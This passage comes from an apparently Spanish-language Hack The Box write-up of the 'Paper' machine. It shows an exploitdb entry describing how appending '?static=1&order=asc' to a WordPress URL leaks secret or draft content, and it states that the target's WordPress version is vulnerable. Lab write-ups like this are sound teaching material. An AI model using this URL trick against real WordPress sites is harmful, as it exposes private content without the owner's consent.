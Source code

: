 ```console
p3ntest1ng:~$ cd /opt/exploitdb/exploits/multiple/webapps
p3ntest1ng:~$ cat 47690.md
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: 47690.md
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ So far we know that adding `?static=1` to a wordpress URL should leak its secret content
   2   │ 
   3   │ Here are a few ways to manipulate the returned entries:
   4   │ 
   5   │ - `order` with `asc` or `desc`
   6   │ - `orderby`
   7   │ - `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format
   8   │ 
   9   │ 
  10   │ In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Esta versión de Wordpress es vulnerable y con ello podemos filtrar información tal y como se indica en el documento:

![CVE](/assets/images/hackthebox/machines/paper/cve-wp.png)
